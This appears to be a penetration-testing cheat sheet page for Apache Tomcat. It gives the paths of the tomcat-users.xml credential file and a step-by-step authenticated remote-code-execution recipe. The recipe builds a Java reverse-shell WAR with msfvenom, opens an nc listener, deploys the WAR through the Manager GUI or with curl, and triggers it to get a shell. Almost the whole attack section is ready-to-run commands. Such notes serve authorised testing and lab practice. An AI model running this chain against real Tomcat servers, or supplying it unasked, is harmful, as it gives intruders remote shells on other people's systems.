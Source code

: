 ```yaml
---
title: "Apache Tomcat"
date: 2024-7-2
tags: ["tomcat", "apache", "web server", "war", "java", "rce"]
---
```


### Config Location

<div>

```console
/usr/share/tomcat9/etc/tomcat-users.xml
```

```console
/etc/tomcat9/tomcat-users.xml
```

</div>

<br>

---

### RCE (Authenicated)

#### 1. Create a WAR file

<div>

```console
msfvenom -p java/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f war -o revshell.war
```

</div>

#### 2. Start a listener

<div>

```console
rlwrap nc -lvnp <LOCAL_PORT>
```

</div>

{{< tab set1 tab1 active >}}3a. Manager GUI{{< /tab >}}
{{< tab set1 tab2 >}}3b. Manager Script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
+--------------------------------------------+
| Exploit                                    |
+--------------------------------------------+
| 1. Login to Tomcat Web Application Manager |
| 2. WAR file to deploy -> Deploy            |
| 3. Click /revshell in Applications table   |
+--------------------------------------------+
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
curl -u '<USERNAME>:<PASSWORD>' http://<DOMAIN>:8080/manager/text/deploy?path=/revshell --upload-file revshell.war
```

```console
curl -s http://<DOMAIN>:8080/revshell
```

</div>

{{< /tabcontent >}}

<br>
